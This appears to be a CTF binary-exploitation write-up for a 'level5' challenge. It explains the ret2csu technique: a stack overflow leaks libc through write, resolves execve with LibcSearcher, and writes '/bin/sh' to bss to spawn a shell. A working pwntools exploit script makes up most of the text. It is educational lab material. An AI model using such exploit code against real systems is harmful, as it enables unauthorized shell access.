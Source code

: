 Here we use `execve` to obtain `shell`. The basic utilization idea is as follows:
 - Use stack overflow to execute `libc_csu_gadgets` to get the `write` function address and make the program re-execute the `main` function.
 - Get the corresponding `libc` version and `execve` function address according to `libcsearcher`.
 - Use stack overflow to execute `libc_csu_gadgets` to write the `execve` address and `'/bin/sh'` address to the `bss` segment, and cause the program to re-execute the `main` function.
 - Use stack overflow to execute `libc_csu_gadgets` to execute `execve('/bin/sh')` to get `shell`.

`exploit`Reference `CTF Wiki`:

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1, write_got,8)
csu(0, 1,
write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

```
